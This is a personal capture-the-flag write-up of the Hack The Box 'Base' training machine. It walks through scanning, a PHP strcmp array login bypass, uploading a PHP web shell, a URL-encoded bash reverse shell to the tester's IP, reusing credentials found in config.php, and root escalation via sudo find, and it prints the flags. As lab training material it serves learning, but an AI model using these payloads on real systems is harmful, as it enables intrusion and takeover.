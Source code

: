 ```yaml
---
title: "HTB Base"
date: 2023-05-30T16:32:14-07:00
draft: false
---
```


# Base by HTB - Starting Point 2 

IP=10.129.95.184
MyIP=10.10.15.79

## nmap 

### nmap -sCV -oN nmap-CV.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f65c9b38eca75c791c1f181c5246f70b (RSA)
|   256 650cf7db42034607f21289fe11202c53 (ECDSA)
|_  256 b865cd3f34d8026ae318233e77dd8740 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### nmap -p- -T5 $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


from login dir 

<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }


intercept the login and chang

username=admin&password=admin
to
username[]=admin&password[]=admin

and we are logedin

make file to test upload

echo "<?php phpinfo(), ?>" > test.php

*note to self*: when uploading file don't forget to turn off the poxy or at lest see if it can be fowrded 

## Gobuster 
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirb/big.txt 
2023/05/30 15:55:37 Starting gobuster in directory enumeration mode

/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]    
/server-status        (Status: 403) [Size: 278]                                      
2023/05/30 15:58:22 Finished


## To login

uplad file that has 
 `<?php echo system($_REQUEST['cmd']);?>`
 in file called webshell.php or other
 
 then go to /_uploaded and open the file in the broser and you should get a ?cmd=
 in the url I had to type it in but it worked once i did 
 then using burp intercept, change the request type to POST from GET then send to reptert and url encode /bin/bash -c 'bash -i >& /dev/tcp/&MyIP/PORT 0>&1'
 `%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%35%2e%37%39%2f%35%35%35%35%20%30%3e%26%31%27`
 then set up your lisaner on the PORT 
 then you will get a rshell
 

 www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php

cat /var/www/html/login/config.php

username = "admin";
password = "thisisagoodpassword";

ls /home
john

cant su john
so ssh john


##### user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e

### Privilege Escalation
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

john@base:~$ sudo find . -exec /bin/sh \; -quit
\# whoami
root

found at [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

\# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949

this is part of HTB startingpoint tire 2 
thank you 